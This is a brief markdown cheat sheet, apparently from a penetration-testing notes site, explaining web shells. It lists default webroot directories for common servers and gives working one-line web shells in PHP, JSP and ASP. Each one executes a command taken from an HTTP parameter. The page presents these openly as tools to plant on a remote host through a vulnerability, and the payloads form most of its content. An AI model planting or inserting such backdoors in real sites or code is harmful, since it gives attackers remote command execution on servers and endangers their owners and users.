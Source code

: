 ```yaml
---
layout: default
title: Web shells
permalink: /web_shells/
---
```


# Web Shell
A Web Shell is typically a web script, that accepts our command through HTTP request parameters such as GET or POST request parameters, executes our command, and prints its output back on the web page.
We need to place our web shell script into the remote host's web directory (webroot) to execute the script. This can be through a vulnerability.
<br>
| Web Server | Default Webroot           |
|------------|---------------------------|
| Apache     | /var/www/html/            |
| Nginx      | /usr/local/nginx/html/    |
| IIS        | c:\inetpub\wwwroot\       |
| XAMPP      | C:\xampp\htdocs\          |



## PHP

```
<?php system($_REQUEST["cmd"]); ?>
```

## JSP

```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

## ASP

```
<% eval request("cmd") %>
```
